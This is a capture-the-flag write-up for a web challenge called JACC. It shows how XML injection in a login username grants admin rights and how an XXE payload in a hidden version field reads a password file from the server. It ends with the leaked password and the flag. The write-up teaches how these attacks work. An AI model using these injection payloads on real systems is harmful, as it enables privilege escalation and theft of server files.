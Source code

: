# JACC - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

Say hello to JACC - Just Another Cookie Clicker 🍪

http://challenges2.hexionteam.com:2002

## Solution

### Login Page

![Image Error](assets/page_login.png)

You start with a login form, viewing the form you can see an hidden `version` value.

### Game Page

![Image Error](assets/page_game.png)

Using [flask-unsign](https://pypi.org/project/flask-unsign/) to decode the session cookie **after logining in as User** we get:

```js
{'cookies': 0, 'lxml': b'PCEtLSBBUEkgVmVyc2lvbjogMS4wLjAgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPlVzZXI8L3VzZXJuYW1lPgogICAgICAgIDxpc19hZG1pbj4wPC9pc19hZG1pbj4KICAgIDwvZGF0YT4KPC9yb290Pgo='}
```

Decoding the base64 we get:

```xml
<!-- API Version: 1.0.0 -->
<root>
    <data>
        <username>User</username>
        <is_admin>0</is_admin>
   </data>
</root>
```

This is interesting cause both `User` and `1.0.0` are user input. Let's try to inject some XML, first let's get is_admin to be 1.

By logging in with `username` as:

`User</username><is_admin>1</is_admin><username>`

We'll see the xml has changed to:

```xml
<!-- API Version: 1.0.0 -->
<root>
    <data>
        <username>Yarin<username>
        <is_admin>1<is_admin>
        <username></username>
        <is_admin>0</is_admin>
    </data>
</root>
```

When the server searches for is_admin it will find our first one and this will allows us to get to the admin panel.

### Admin Login Page

![Image Error](assets/admin_panel_page.png)

In the source code of the page we can see this comment:

```html
<!-- If you are an admin and you forgot the password it's located on the server at /admin_pass-->
```

Alright we need to get the file located at /admin_pass from the server. Now we can use the version from before to add a DOCTYPE and XXE or way to local file inclusion. \
The username is printed in the game as `Good Luck {username}!` we can use this to read our XXE entity.

We'll set `username` to:

`&xxe;</username><username>Hey`

And `version` to:

```xml
--><!DOCTYPE d [<!ENTITY xxe SYSTEM \"file:///admin_pass\">]><!--
```

First we close the comment from the version with `-->` we insert our DOCTYPE with the entity and then resume the comment that will be closed by the server with `<!--`

This will give us `admin_pass` in the username location:
![Image Error](assets/xxe.png)

Admin Password is `gLTAqe12Z3OufWG7`
Putting the password in the admin panel will send us this png:
![Image Error](assets/flag.png)

Flag: `hexCTF{th3_c00ki3_m0nst3r_at3_my_c00ki3s}`
